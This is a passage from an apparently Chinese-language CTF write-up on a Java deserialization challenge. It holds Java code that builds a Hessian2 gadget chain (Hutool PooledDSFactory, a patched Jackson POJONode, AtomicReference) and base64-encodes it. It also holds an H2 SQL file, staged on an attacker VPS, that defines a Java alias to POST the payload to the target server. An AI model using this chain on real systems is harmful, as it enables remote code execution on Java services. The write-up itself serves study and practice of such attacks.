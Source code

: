 ```plain

        Unsafe unsafe = (Unsafe) ReflectUtil.getFieldValue(null, ReflectUtil.getField(Unsafe.class, "theUnsafe"));

        PooledDSFactory pooledDSFactory = (PooledDSFactory) unsafe.allocateInstance(PooledDSFactory.class);

        ReflectUtil.setFieldValue(pooledDSFactory, "dataSourceName", PooledDSFactory.DS_NAME);
        ReflectUtil.setFieldValue(pooledDSFactory, "setting", setting);
        ReflectUtil.setFieldValue(pooledDSFactory, "dsMap", new SafeConcurrentHashMap<>());

        Bean bean = new Bean();
        bean.setData(SerializeUtil.serialize(pooledDSFactory));

        ClassPool classPool = ClassPool.getDefault();
        CtClass ctClass = classPool.get("com.fasterxml.jackson.databind.node.BaseJsonNode");
        CtMethod ctMethod = ctClass.getDeclaredMethod("writeReplace");
        ctClass.removeMethod(ctMethod);
        ctClass.toClass();

        POJONode pojoNode = new POJONode(bean);

        Object object = new AtomicReference<>(pojoNode);

        hessian2Output.writeObject(object);
        hessian2Output.writeMapEnd();
        hessian2Output.close();

        byte[] data = byteArrayOutputStream.toByteArray();

        System.out.println(Base64.getEncoder().encodeToString(data));
    }
}
```

在攻击者 VPS 准备如下 .sql 文件，里面的 base64 部分用来向 server 发送 payload

```plain
create alias send as 'int send(String url, String poc) throws java.lang.Exception { java.net.http.HttpRequest request = java.net.http.HttpRequest.newBuilder().uri(new java.net.URI(url)).headers("Content-Type", "application/octet-stream").version(java.net.http.HttpClient.Version.HTTP_1_1).POST(java.net.http.HttpRequest.BodyPublishers.ofString(poc)).build(); java.net.http.HttpClient httpClient = java.net.http.HttpClient.newHttpClient(); httpClient.send(request, java.net.http.HttpResponse.BodyHandlers.ofString()); return 0;}';
call send('http://server:8080/read', '<这里填打 server 的 base64 payload>')
```

### server

server 端提供了一个原生反序列化入口. 题目环境在 springboot 下, 在pom.xml 文件里可以看到依赖包含 jooq:

```plain
<dependency>
    <groupId>org.jooq</groupId>
    <artifactId>jooq</artifactId>
    <version>3.19.3</version>
</dependency>
```
